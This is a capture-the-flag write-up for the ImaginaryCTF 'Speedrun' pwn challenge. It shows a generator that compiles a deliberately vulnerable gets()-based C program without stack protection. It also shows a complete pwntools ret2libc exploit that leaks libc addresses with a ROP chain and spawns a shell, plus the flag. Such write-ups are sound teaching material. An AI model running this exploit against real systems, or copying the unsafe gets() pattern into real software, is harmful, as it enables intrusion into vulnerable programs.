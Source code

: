 # Speedrun (Pwn, 200 pts)

## Description

I've seen some teams solve pwn challenges almost instantly. I'm sure y'all wonder how. Well, you're about to find out!

## Attachment

[`speedrun.py`](speedrun.py)

## Solution

The given file:
```py
#!/usr/bin/env python3

import os
import sys
import subprocess
import base64
import random
import uuid
import time

code1 = '''
#include <stdio.h>

int main(void) {
	char inp['''

code2 = '''];
	setvbuf(stdout,NULL,2,0);
	setvbuf(stdin,NULL,2,0);
	gets(inp);
	puts("Thanks!");
}
'''

# Skipping through the art here because it takes too much line
# art = ''''''

def compile(size):
	filename = "/tmp/bin" + str(uuid.uuid4())
	open(filename + ".c", "w").write(code1 + str(size) + code2)
	subprocess.run(["gcc", "-o", filename, filename + ".c", "-fno-stack-protector", "-no-pie"], capture_output=True)
	os.remove(filename + ".c")
	return filename

def handler(signum, frame):
    print("Out of time!")

filename = compile(random.randint(20,1000))
binary = base64.b64encode(open(filename, "rb").read()).decode()
print(art)
print("I'll see you after you defeat the ender dragon!")

time.sleep(3)

print("---------------------------BEGIN  DATA---------------------------")
print(binary)
print("----------------------------END  DATA----------------------------")

subprocess.run([filename], stdin=sys.stdin, timeout=10)
os.remove(filename)
```
It creates a `c` file that uses `gets` and `puts`, and compiles it with `-fno-stack-protector` and `-no-pie`. Perfect for a `ret2libc`, but we have to automate it to run within 10 seconds. We are given a copy of the c file, encoded into base64; the length of the buffer is random. In steps:
1. Decode the base64 and compile it into a binary locally.
2. Find out how long the buffer is - achievable by making it crash via a cyclic pattern and inspecting the rsp of the core dump.
3. Get the libc version by leaking out `puts` address (and `gets` too, if there's too many libc versions). Since the libc version does not change, this could be done before the final execution that needs to be automated.
4. From the correct version of libc, get a gadget for getting the shell via `one_gadget`.
5. Send the full payload. Get shell.
6. ???
7. Profit!

The full script ([`speedrun.sol.py`](speedrun.sol.py)):
```py
#!/usr/bin/env python3

import base64
from pwn import *

#p = process(['python3', './speedrun.py'])
p = remote('chal.imaginaryctf.org', '42020')
p.recvuntil("---------------------------BEGIN  DATA---------------------------")
bin_64 = p.recvuntil("----------------------------END  DATA----------------------------")
p.clean()
bin_64 = bin_64[:-66]
bincode = base64.b64decode(bin_64)
with open('speedrun_bin', 'wb') as f:
    f.write(bincode)
binelf = './speedrun_bin'
elf = ELF(binelf)

# get offset from the binary data
binproc = process(binelf)
binproc.sendline(cyclic(1000))
binproc.wait()
core = binproc.corefile
stack = core.rsp
pattern = core.read(stack,4)
rip_offset = cyclic_find(pattern)
print("offset=>"+str(rip_offset))
padding = b'\x00'*rip_offset

# ROP basics
r = ROP(elf)
libc = ELF('./libc6_2.28-10_amd64.so')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_plt = elf.symbols['main']
rdi_ret = (r.find_gadget(['pop rdi', 'ret']))[0]
binsh = 0x4484f # requires rax == NULL; before execution of binsh, main terminates returning 0.

# leak puts address
payload = padding + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_plt)
p.sendline(payload)
p.recvline()
rcv = p.recvline().strip()
puts_addr = u64(rcv.ljust(8,b'\x00'))
print("puts_addr=>"+hex(puts_addr))

# compute libc_base and binsh addresses
libc_base = puts_addr - libc.symbols['puts']
binsh = libc_base + binsh

# send payload; shell
payload = padding + p64(binsh)
p.sendline(payload)
print(p.recvline())
print("====SHELL====")
p.interactive()
```

## Flag
```
ictf{4ut0m4t1ng_expl0it_d3v????_b7d75e95}
```
